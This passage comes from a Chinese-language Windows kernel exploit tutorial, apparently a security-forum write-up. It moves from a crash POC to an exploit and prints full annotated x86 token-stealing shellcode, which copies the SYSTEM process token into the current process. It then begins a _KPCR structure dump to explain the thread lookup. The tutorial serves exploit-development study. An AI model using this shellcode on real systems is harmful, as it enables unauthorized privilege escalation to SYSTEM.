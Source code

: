  

![](https://bbs.pediy.com/upload/attach/202106/817966_C8DRU6TUPESE9GM.jpg)

 

上述 POC 仅仅是引发崩溃，下面编写 Exp 以执行 Shellcode。Shellcode 如下：

```
CHAR shellcode[] =
        "\x60"                            //pushad
        "\x31\xc0"                        //xor eax, eax
        "\x64\x8b\x80\x24\x01\x00\x00"    //mov eax,[fs:eax + 0x124]
        "\x8b\x40\x50"                    //mov eax,[eax + 0x50]
        "\x89\xc1"                        //mov ecx,eax
        "\xba\x04\x00\x00\x00"            //mov edx,0x4
        "\x8b\x80\xb8\x00\x00\x00"        //mov eax,[eax + 0xb8]<----
        "\x2d\xb8\x00\x00\x00"            //sub eax,0xb8            |
        "\x39\x90\xb4\x00\x00\x00"        //cmp[eax + 0xb4],edx        |
        "\x75\xed"                        //jnz  --------------------
        "\x8b\x90\xf8\x00\x00\x00"        //mov edx,[eax + 0xf8]
        "\x89\x91\xf8\x00\x00\x00"        //mov[ecx + 0xf8],edx
        "\x61"                            //popad
        "\x31\xc0"                        //xor eax,eax
        "\x5d"                            //pop ebp
        "\xc2\x08\x00"                    //ret 0x8
        ;

```

`pushad`与`popad`及后续指令用于恢复执行环境，详见后文。`mov eax,[fs:eax + 0x124]`功能是获取`CurrentThread`指针内容，`fs:[0]`存储的是`_KPCR`结构：

```
ntdll!_KPCR
   +0x000 NtTib            : _NT_TIB
   +0x000 Used_ExceptionList : Ptr32 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Used_StackBase   : Ptr32 Void
   +0x008 Spare2           : Ptr32 Void
   +0x00c TssCopy          : Ptr32 Void
   +0x010 ContextSwitches  : Uint4B
   +0x014 SetMemberCopy    : Uint4B
   +0x018 Used_Self        : Ptr32 Void
   +0x01c SelfPcr          : Ptr32 _KPCR
   +0x020 Prcb             : Ptr32 _KPRCB
   +0x024 Irql             : UChar
   +0x028 IRR              : Uint4B
   +0x02c IrrActive        : Uint4B
   +0x030 IDR              : Uint4B
   +0x034 KdVersionBlock   : Ptr32 Void
   +0x038 IDT              : Ptr32 _KIDTENTRY
   +0x03c GDT              : Ptr32 _KGDTENTRY
   +0x040 TSS              : Ptr32 _KTSS
   +0x044 MajorVersion     : Uint2B
   +0x046 MinorVersion     : Uint2B
   +0x048 SetMember        : Uint4B
   +0x04c StallScaleFactor : Uint4B
   +0x050 SpareUnused      : UChar
   +0x051 Number           : UChar
   +0x052 Spare0           : UChar
   +0x053 SecondLevelCacheAssociativity : UChar
   +0x054 VdmAlert         : Uint4B
   +0x058 KernelReserved   : [14] Uint4B
   +0x090 SecondLevelCacheSize : Uint4B
   +0x094 HalReserved      : [16] Uint4B
   +0x0d4 InterruptMode    : Uint4B
   +0x0d8 Spare1           : UChar
```